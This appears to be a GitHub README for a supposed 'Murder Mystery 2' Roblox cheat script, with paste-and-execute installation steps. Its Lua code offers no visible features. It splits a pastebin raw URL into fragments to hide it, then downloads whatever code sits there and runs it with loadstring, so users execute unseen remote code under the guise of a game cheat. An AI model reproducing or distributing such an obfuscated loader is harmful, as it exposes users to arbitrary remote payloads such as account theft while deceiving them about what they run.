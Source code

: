 # Murder Mystery 2 

![Game Image](https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcQ1Mf8P_tt0H8MH4wiHid10ECeZWwm9HX5bkrMZq4l9QQ&s=10)

## Features

- TO MUCHH

---

## Installation

- Copy script  
- Go to your executor (Delta, KRNL, etc.)  
- Paste and execute  
- Enjoy :)

```lua
local function s(t)
    local r = {"ht","tp","s:","//","pa","st","eb","in",".c","om","/r","aw","/u","n1","mx","SY","E"}
    return table.concat(r)
end

local function r(u)
    return game:HttpGet(u)
end

local function x(c)
    return loadstring(c)()
end

local url = s()
local code = r(url)
x(code)

